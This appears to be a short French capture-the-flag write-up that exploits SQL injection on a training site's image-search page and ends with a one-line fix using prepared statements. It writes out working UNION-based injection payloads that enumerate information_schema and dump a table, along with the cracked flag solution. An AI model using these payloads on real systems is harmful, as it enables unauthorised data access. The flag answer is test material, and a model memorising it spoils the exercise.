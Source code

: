 # exploiter faille SQL

## Exploit
sur la page /index.php?page=searchimg nous pouvons effectuer une recherche direcement dans la base de donnee \
pour exploiter la table nous avons besoin de connaitre le nom des tables et des colonne. \
dans un premier temp on cherche le nombre de colonne avec : 1 ORDER BY X \
une fois X determine on recherche le nom de la table qui nous interesse avec : 1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables \
(ajouter autant de table_schema ou table_name que X) \
ensuite il nous faut determiner les colonnes de la table : 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns \
pour finir on execute notre requete avec les informations recuperees : 1 AND 1=2 UNION SELECT title,comment FROM list_images \
la base de donnees nous affiche : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 \
decrypte : albatroz \
on met en minuscule puis encrypte en Sh256 pour avoir le flag. 

## Protection :
L'utilisation de requete preparee en back  permet d'eviter l'injection sql. \
